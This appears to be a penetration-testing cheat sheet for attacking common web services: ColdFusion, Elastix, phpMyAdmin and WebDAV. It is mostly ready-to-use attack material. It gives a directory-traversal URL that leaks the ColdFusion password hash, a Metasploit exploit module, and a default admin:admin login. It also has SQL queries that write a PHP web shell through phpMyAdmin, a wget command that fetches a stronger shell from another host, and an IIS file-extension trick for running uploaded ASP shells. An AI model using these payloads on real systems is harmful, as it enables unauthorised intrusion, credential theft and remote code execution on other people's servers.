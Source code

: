 # Common web-services

This is a list of some common web-services. The list is alphabetical.

## Cold Fusion

If you have found a cold fusion you are almost certainly struck gold.
http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers

### Determine version

example.com/CFIDE/adminapi/base.cfc?wsdl
It will say something like:
```
<!--WSDL created by ColdFusion version 8,0,0,176276-->
```

### Version 8

#### FCKEDITOR


This works for version 8.0.1. So make sure to check the exact version.
```
use exploit/windows/http/coldfusion_fckeditor
```

#### LFI

This will output the hash of the password. 
```
http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

You can pass the hash.

http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers

http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/

neo-security.xml and password.properties

## Drupal

## Elastix

Full of vulnerabilites. The old versions at least.

http://example.com/vtigercrm/
default login is
admin:admin

You might be able to upload shell in profile-photo.

## Joomla

## Phpmyadmin

If you find a phpMyAdmin part of a site that does not have any authentication, or you have managed to bypass the authetication you can use it to upload a shell.

You go to:
```
http://192.168.1.101/phpmyadmin/
```

Then click on SQL. 

```
Run SQL query/queries on server "localhost":
```
From here we can just run a sql-query that creates a php script that works as a shell

So we add the following query:
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"

# For linux
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```
The query is pretty self-explanatory. Now you just visit `192.168.1.101/shell.php?cmd=ipconfig` and you have a working web-shell.
We can of course just write a superlong query with a better shell. But sometimes it is easier to just upload a simple web-shell, and from there download a better shell.

### Download a better shell

On linux-machines we can use wget to download a more powerful shell.

```
?cmd=wget%20192.168.1.102/shell.php
```

On windows-machines we can use tftp. 

## Webdav

Test if it is possible to upload and execute files with webdav.

```
davtest -url http://192.168.1.101 -directory demo_dir -rand aaaa_upfileP0C
```

If you managed to gain access but is unable to execute code there is a workaround for that!
So if webdav has prohibited the user to upload .asp code, and pl and whatever, we can do this:

upload a file called shell443.txt, which of course is you .asp shell. And then you rename it to **shell443.asp;.jpg**. Now you visit the page in the browser and the asp code will run and return your shell. 


### Access the code

http://secureyes.net/nw/assets/Bypassing-IIS-6-Access-Restrictions.pdf

## Wordpress
